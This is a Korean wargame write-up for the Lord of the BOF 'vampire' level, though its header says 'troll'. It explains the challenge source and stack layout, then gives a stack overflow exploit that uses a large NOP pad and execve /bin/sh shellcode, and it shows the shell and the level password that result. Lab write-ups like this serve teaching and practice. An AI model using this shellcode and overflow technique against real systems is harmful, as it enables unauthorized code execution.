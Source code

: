 ============================================================================================================
[lob] troll
============================================================================================================

.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1]의 주소값 변경;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================


해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
    */

    #include <stdio.h>
    #include <stdlib.h>

    main(int argc, char *argv[])
    {
        char buffer[40];

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
            printf("but it's not forever\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }


|

Memory Structure
============================================================================================================


스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================


버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./vampire2 `python -c 'print "a"*47'`
    stack is still your friend.

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault



|

exploit
============================================================================================================


argv[1]의 주소값 변경
------------------------------------------------------------------------------------------------------------

argv[1]의 주소가 \\xbf\\xff로 시작하기 때문에 argv[1]에 nop를 100000만큼 삽입하여 주소값을 \\xbf\\xfe로 시작하도록 합니다.

.. code-block:: console

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"+"\x90"*100000'`
    buffer : 0xbffe7460
    argv[1]: 0xbffe74d8

    Segmentation fault

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

nop (44 byte) + argv[1] address + nop (100000 byte) + shellcode (25 byte)

.. code-block:: console

    $ ./vampire `python -c 'print "\x90"*44+"\xd8\x74\xfe\xbf"+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒

    bash$ whoami
    vampire
    bash$ my-pass
    euid = 509
    music world
